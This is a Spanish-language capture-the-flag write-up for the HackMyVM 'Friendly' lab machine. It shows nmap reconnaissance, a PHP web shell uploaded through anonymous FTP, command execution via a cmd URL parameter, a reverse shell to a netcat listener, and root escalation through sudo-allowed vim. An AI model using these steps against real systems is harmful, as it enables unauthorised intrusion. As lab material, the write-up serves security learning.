


FTP
HACKMYVM
PE
RCE
Friendly.
Autor:RiJaba1
Fecha de creacion:2023-03-24
Dificultad:Easy
Reconocimiento y enumeración:
Hacemos el reconocimiento de puertos con nmap
-p- --open -sS --min-rate 5000 -n -Pn -vvv -oG allPorts.txt 192 .168.1.98
Observamos que los puertos con estado open son el puerto 21 y 80
Starting Nmap 7 . 95 ( https : //nm ap . org ) at 2024 - 09 - 18 22 : 48 CST
Initiating ARP Ping Scan at 22 : 48
Scanning 192 . 168 . 1 . 98 [ 1 port ]
Completed ARP Ping Scan at 22 : 48 , 0 . 03 s elapsed ( 1 total hosts )
Initiating SYN Stealth Scan at 22 : 48
Scanning 192 . 168 . 1 . 98 [ 65535 ports ]
Discovered open port 80 / tcp on 192 . 168 . 1 . 98
Discovered open port 21 / tcp on 192 . 168 . 1 . 98
Completed SYN Stealth Scan at 22 : 48 , 0 . 68 s elapsed ( 65535 total ports )
Nmap scan report for 192 . 168 . 1 . 98
Host is up , received arp - response ( 0 . 00032 s latency ) .
Scanned at 2024 - 09 - 18 22 : 48 : 04 CST for 0 s
Not shown : 65533 closed tcp ports ( reset )
PORT STATE SERVICE REASON
21 / tcp open ftp syn - ack ttl 64
80 / tcp open http syn - ack ttl 64
MAC Address : 00 : 0 C : 29 : 10 :C5 : 3 E ( VMware )
Read data files from : /usr/ bin /../ share / nmap
Nmap done : 1 IP address ( 1 host up ) scanned in 0 . 78 seconds
Raw packets sent : 65536 ( 2 . 884 MB ) | Rcvd : 65536 ( 2 . 621 MB )
Con la finalidad de obtener las versiones de los servicios que tienen asignados esos puertos relizamos un segundo escaneo con nmap de los puertos.
nmap -p21,80 -sCV 192 .168.1.98 -oN openServices.txt
Vemos que el puerto 21 tiene un servicio de proFTPD y que este permite login de usuarios anónimos.
También observamos que el puerto 80 tiene un servicio de apache corriendo.
Starting Nmap 7 . 95 ( https : //nm ap . org ) at 2024 - 09 - 18 22 : 49 CST
Nmap scan report for 192 . 168 . 1 . 98 ( 192 . 168 . 1 . 98 )
Host is up ( 0 . 00010 s latency ) .
PORT STATE SERVICE VERSION
21 / tcp open ftp ProFTPD
| ftp - anon : Anonymous FTP login allowed ( FTP code 230 )
| _ - rw - r -- r -- 1 root root 10725 Feb 23 2023 index . html
80 / tcp open http Apache httpd 2 . 4 . 54 (( Debian ))
| _http - server - header : Apache / 2 . 4 . 54 ( Debian )
| _http - title : Apache2 Debian Default Page : It works
MAC Address : 00 : 0 C : 29 : 10 :C5 : 3 E ( VMware )
Service detection performed . Please report any incorrect results at https : //nm ap . org / submit / .
Nmap done : 1 IP address ( 1 host up ) scanned in 12 . 30 seconds
Intrusión
Intentamos una conexión ftp como usuario anónimo
192 .168.1.98
to 192 .168.1.98.
220 ProFTPD Server ( friendly) [ ::ffff:192.168.1.98]
( 192 .168.1.98:quantum) : anonymous
331 Anonymous login ok, send your complete email address as your password
230 Anonymous access granted, restrictions apply
system type is UNIX.
binary mode to transfer files.
Listamos los archivos con el comando dir y observamos que existe un archivo index.html
ftp > dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
- rw - r -- r -- 1 root root 10725 Feb 23 2023 index . html
226 Transfer complete
ftp >
Intentamos subir un archivo malicioso php con la finalidad de poder obtener RCE (remote code execution).
ftp > append
( local - file ) cmdshell . php
( remote - file ) cmdshell . php
200 PORT command successful
150 Opening BINARY mode data connection for cmdshell . php
226 Transfer complete
114 bytes sent in 0 . 0024 seconds ( 46 . 5 kbytes / s )
ftp > dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
- rw - r -- r -- 1 ftp nogroup 114 Sep 19 04 : 57 cmdshell . php
- rw - r -- r -- 1 root root 10725 Feb 23 2023 index . html
226 Transfer complete
ftp >

Por lo que haremos la consulta de RCE con el comando whoami con el atributo cmd:
http : // 192 . 168 . 1 . 98 / cmdshell . php?cmd = whoami

Una vez comprobado que podemos realizar RCE procedemos a subir una reverse shell:
ftp > append
( local - file ) monkey . php
( remote - file ) monkey . php
200 PORT command successful
150 Opening BINARY mode data connection for monkey . php
226 Transfer complete
2585 bytes sent in 0 . 00241 seconds ( 1 . 02 Mbytes / s )
ftp > dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
- rw - r -- r -- 1 ftp nogroup 114 Sep 19 04 : 57 cmdshell . php
- rw - r -- r -- 1 root root 10725 Feb 23 2023 index . html
- rw - r -- r -- 1 ftp nogroup 2585 Sep 19 04 : 57 monkey . php
226 Transfer complete
ftp >
Nos ponemos a la escucha en netcat por el puerto 443:
Obtenemos la reverse shell:
Connection from 192 . 168 . 1 . 98 : 42200
Linux friendly 5 . 10 . 0 - 21 - amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
00 : 59 : 00 up 14 min , 0 users , load average : 0 . 00 , 0 . 00 , 0 . 00
USER TTY FROM LOGIN @ IDLE JCPU PCPU WHAT
uid = 33 ( www - data ) gid = 33 ( www - data ) groups = 33 ( www - data )
sh : 0 : can 't access tty; job control turned off
$ whoami
www-data
Procedemos a buscar la bandera de usuario con el comando find:
/ -name user.txt 2 >/dev/null
La bandera de usuario se encuentra en la siguiente ruta:
Escalada de privilegios
Realizamos la enumeración de los binarios con permisos SUID:
/ -perm -4000 -ls 2 >/dev/null
No observamos nada extraño:
656427 52 - rwsr - xr -- 1 root messagebus 51336 Oct 5 2022 / usr / lib / dbus - 1 . 0 / dbus - daemon - launch - helper
1051587 472 - rwsr - xr - x 1 root root 481608 Jul 1 2022 / usr / lib / openssh / ssh - keysign
657058 36 - rwsr - xr - x 1 root root 35040 Jan 20 2022 / usr / bin / umount
656685 44 - rwsr - xr - x 1 root root 44632 Feb 7 2020 / usr / bin / newgrp
652897 52 - rwsr - xr - x 1 root root 52880 Feb 7 2020 / usr / bin / chsh
657056 56 - rwsr - xr - x 1 root root 55528 Jan 20 2022 / usr / bin / mount
652833 180 - rwsr - xr - x 1 root root 182600 Jan 14 2023 / usr / bin / sudo
652900 64 - rwsr - xr - x 1 root root 63960 Feb 7 2020 / usr / bin / passwd
656816 72 - rwsr - xr - x 1 root root 71912 Jan 20 2022 / usr / bin / su
652896 60 - rwsr - xr - x 1 root root 58416 Feb 7 2020 / usr / bin / chfn
652899 88 - rwsr - xr - x 1 root root 88304 Feb 7 2020 / usr / bin / gpasswd
Listamos los binarios ejecutables con sudo:
Vemos que el usuario www-data puede ejecutar vim como super usuario sin necesidad de contraseña:
Matching Defaults entries for www - data on friendly :
env_reset , mail_badpass , secure_path = /usr/ local / sbin \ :/ usr / local / bin \ :/ usr / sbin \ :/ usr / bin \ :/ sbin \ :/ bin
User www - data may run the following commands on friendly :
( ALL : ALL ) NOPASSWD : /usr/ bin / vim
Siguiendo la guia GTFObins podemos obtener una shell como usuario root, con el siguiente comando:
Listo obtenemos una shell como root
Obtener la ultima bandera
Para encontrar la ultima bandera utilizaremos el comando find de forma recursiva a desde la raiz / :
/ -name root.txt 2 >/dev/null
Observamos que existen dos archivos que corresponden a la bandera de root:
/var/ log / apache2 / root . txt
/root/ root . txt
Procedemos a leer la bandera que se encuentra en el siguiente path: /root/root.txt
La bandera nos muestra este contenido, por lo que donde realmente se encuentra la bandera de root es en el path: /var/log/apache2/root.txt
May 12, 2026
May 12, 2026